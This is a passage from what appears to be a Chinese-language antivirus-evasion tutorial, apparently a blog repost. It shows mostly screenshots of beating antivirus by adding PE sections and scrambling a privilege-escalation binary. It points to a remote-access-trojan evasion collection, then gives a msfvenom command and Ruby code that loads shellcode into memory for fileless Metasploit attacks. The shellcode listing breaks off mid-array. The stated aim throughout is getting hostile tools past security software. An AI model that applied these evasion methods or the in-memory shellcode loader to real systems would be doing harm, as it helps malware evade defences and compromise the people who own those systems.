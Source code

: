 仍c32里面到最后面加点东西！

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F202010072344342.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007234440249.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**增加区段**

真是渣！增加一个区段！就过了！-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007234458399.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007234505214.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**0x07 字体提权过百度杀毒（PE打乱）**

原始被杀-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007234520333.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
打乱PE-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007234536265.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**总结：**

要过杀毒就要想尽一切能修改程序还不叫他损坏的方法！

参考书籍：《精通黑客免杀》《黑客免杀攻防》

* * *

#### 9.1.3 远控木马极速免杀360五引擎

属于内部资料，不分享出来了，下面推荐看的是免杀合集，非常不错！！！

    https://www.freebuf.com/articles/system/227461.html  --免杀合集
    
        

* * *

#### 9.1.4 基于Ruby内存加载 shellcode第一季

本季是为配合msf在渗透过程中无文件渗透，提前做基础过度。也为msf插件编写做基础过度

ruby shellcode 生成如下：

    msfvenom ‐p windows/messagebox TEXT=Micropoor TITLE=Micropoor ‐f ruby ‐‐smallest
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007235503980.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007235512147.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
附源码：

   
```
 require 'fiddle'
    require 'fiddle/import'
    require 'fiddle/types' 
    
    # msfvenom ‐p windows/messagebox TEXT=Micropoor TITLE=Micropoor ‐f ruby ‐‐smallest
    shellcode =
     "\\xd9\\xeb\\x9b\\xd9\\x74\\x24\\xf4\\x31\\xd2\\xb2\\x77\\x31\\xc9\\x64" +
     "\\x8b\\x71\\x30\\x8b\\x76\\x0c\\x8b\\x76\\x1c\\x8b\\x46\\x08\\x8b\\x7e" +
    "\\x20\\x8b\\x36\\x38\\x4f\\x18\\x75\\xf3\\x59\\x01\\xd1\\xff\\xe1\\x60" +
    "\\x8b\\x6c\\x24\\x24\\x8b\\x45\\x3c\\x8b\\x54\\x28\\x78\\x01\\xea\\x8b"
    "\\x4a\\x18\\x8b\\x5a\\x20\\x01\\xeb\\xe3\\x34\\x49\\x8b\\x34\\x8b\\x01"
    "\\xee\\x31\\xff\\x31\\xc0\\xfc\\xac\\x84\\xc0\\x74\\x07\\xc1\\xcf\\x0d"
    "\\x01\\xc7\\xeb\\xf4\\x3b\\x7c\\x24\\x28\\x75\\xe1\\x8b\\x5a\\x24\\x01"
    "\\xeb\\x66\\x8b\\x0c\\x4b\\x8b\\x5a\\x1c\\x01\\xeb\\x8b\\x04\\x8b\\x01"
    "\\xe8\\x89\\x44\\x24\\x1c\\x61\\xc3\\xb2\\x08\\x29\\xd4\\x89\\xe5\\x89"
    "\\xc2\\x68\\x8e\\x4e\\x0e\\xec\\x52\\xe8\\x9f\\xff\\xff\\xff\\x89\\x45"
    "\\x04\\xbb\\x7e\\xd8\\xe2\\x73\\x87\\x1c\\x24\\x52\\xe8\\x8e\\xff\\xff"
    "\\xff\\x89\\x45\\x08\\x68\\x6c\\x6c\\x20\\x41\\x68\\x33\\x32\\x2e\\x64"
```